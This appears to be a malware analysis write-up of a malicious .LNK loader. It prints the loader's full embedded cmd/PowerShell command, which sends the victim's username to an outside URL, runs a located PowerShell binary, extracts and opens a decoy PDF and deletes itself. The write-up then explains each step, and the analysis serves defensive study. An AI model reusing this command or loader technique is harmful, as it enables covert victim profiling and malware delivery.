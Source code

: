 - **Note:** Same as the last .LNK loader, we didn’t get our hands on the main .LNK file (월급.lnk) . So everything here’s from static analysis and watching its behavior.

### Stage 0: File

- **Type:** .LNK
- **Size:** 3.78 KB
- **Name:** plum.lnk
- **Hash:** 065f4a69119449bcbd777a96674ea52553ec282127731980476c7b4da69471c8
- **VirusTotal:** 21/62

### Stage 1: The LNK Payload

---

Inside the .LNK 

Used 010 Editor + LNK templates to read between the bytes. Here's what stood out:

- **Command Target:**
    
    `cmd.exe`, chained with PowerShell logic
    
- **Working Dir:**
    
    `C:\Users\kangb\OneDrive\Desktop`
    
- COMMAND LINE ARGUMENTS:

Below is the full PowerShell/Batch combo  embedded into the `.lnk` target:

```
/v:on /k "for /f %a in ('whoami') do (set myuser=%a&set myuser=!myuser:\=/!&curl http://google.com/112.jsp?user=!myuser!)&for /f \"tokens=*\" %a in ('dir C:\Windows\System32\*rshell.exe /s /b /od') do call %a -WindowStyle Minimized \"$DirPath=Get-Location;if ($DirPath -Match 'System32' -or $DirPath -Match 'Program Files' -or $DirPath -eq ''){$DirPath=$env:TEMP;}$Files=Get-ChildItem -Path $DirPath -Recurse -Filter '월급.lnk';$lnkF='';foreach ($File in $Files){$lnkF=$File.FullName;};$StartA=0;$fileBytes=Get-Content -Path $lnkF -Encoding Byte -Raw;$a5=0x25;$b4=0x50;$c3=0x44;$d4=0x46;for ($i=0;$i -lt $fileBytes.Length;$i++){if ($fileBytes[$i] -eq $a5){if ($fileBytes[$i+1] -eq $b4){if ($fileBytes[$i+2] -eq $c3){if ($fileBytes[$i+3] -eq $d4){$startA=$i;break;}}}}}$byteC=58461;$NormalF=$lnkF -replace 'lnk','pdf';$selectedBytes=$fileBytes[$startA..($startA+$byteC-1)];Set-content -Path $NormalF -Value $selectedBytes -Encoding Byte;ii $NormalF;timeout /t 2;Remove-Item -Path $lnkF;\"&cls&exit"
```

---

**`cmd.exe /v:on /k`**

- Enables delayed variable expansion. Needed for dynamic variable tricks like `!myuser!`.

**`for /f %a in ('whoami') do (...)`**

- Gets the current username.
- Replaces `\` with `/` to make it URL-safe.
- Sends the username to a beacon URL (`google[.]com/112.jsp`). This is likely a placeholder.

**`for /f "tokens=*" %a in ('dir ... *rshell.exe') do call %a`**

- Looks for a renamed PowerShell binary (possibly `rshell.exe`).
- Calls it minimized to execute the rest of the payload.
